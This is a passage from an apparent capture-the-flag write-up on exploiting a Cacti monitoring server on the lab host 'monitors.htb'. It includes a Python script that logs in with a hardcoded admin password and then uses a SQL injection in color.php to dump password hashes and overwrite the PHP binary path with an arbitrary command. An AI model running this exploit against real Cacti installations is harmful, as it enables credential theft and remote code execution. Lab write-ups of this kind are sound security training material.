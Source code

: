 
In doing this, I could see that I was successfully changing the database, but
still getting the original pings.

It seems that no matter what the DB says, the actually binary will would only
update once per session. So once I visited `host.php` to trigger, if I wanted
to trigger again, I needed to log out and back in, and then it would work.

#### Script

Because that involved a lot of clicking, I wrote a script to do it. There are
four steps:

  * Get the CSRF token from the login page
  * Login
  * SQLi
  * Trigger

    
    
    #!/usr/bin/env python3
    
    import re
    import requests
    import sys
    import urllib.parse
    
    
    payload = urllib.parse.quote(sys.argv[1]) + ';'
    
    sess = requests.Session()
    sess.proxies.update({'http': 'http://127.0.0.1:8080'})
    
    # get CSRF
    resp = sess.get("http://cacti-admin.monitors.htb/cacti/index.php")
    csrf = re.search(r"csrfMagicToken='(.*)'", resp.text).group(1)
    print(f"Got CSRF: {csrf}")
    
    # login
    resp = sess.post("http://cacti-admin.monitors.htb/cacti/index.php",
            data = {
                '__csrf_magic':   csrf,
                'action':         'login',
                'login_username': 'admin',
                'login_password': 'BestAdministrator@2020!',
                })
    
    print(f"[+] Logged in with cookie: {sess.cookies['Cacti']}")
    
    # upload command
    resp = sess.get(f"http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='{payload}'+where+name='path_php_binary';--+-")
    